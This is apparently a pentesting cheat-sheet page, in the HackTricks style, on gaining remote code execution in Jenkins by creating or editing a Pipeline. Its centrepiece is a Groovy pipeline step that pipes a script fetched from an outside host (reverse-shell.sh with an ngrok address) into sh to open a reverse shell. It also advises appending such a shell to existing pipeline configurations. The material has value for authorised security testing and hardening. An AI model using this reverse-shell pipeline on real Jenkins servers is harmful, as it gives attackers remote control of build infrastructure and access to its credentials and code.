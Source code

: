# Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Creating a new Pipeline

In "New Item" (accessible in `/view/all/newJob`) select **Pipeline:**

![](<../../images/image (235).png>)

In the **Pipeline section** write the **reverse shell**:

![](<../../images/image (285).png>)

```groovy
pipeline {
    agent any

    stages {
        stage('Hello') {
            steps {
                sh '''
                    curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
                '''
            }
        }
    }
}
```

Finally click on **Save**, and **Build Now** and the pipeline will be executed:

![](<../../images/image (228).png>)

## Modifying a Pipeline

If you can access the configuration file of some pipeline configured you could just **modify it appending your reverse shell** and then execute it or wait until it gets executed.

{{#include ../../banners/hacktricks-training.md}}
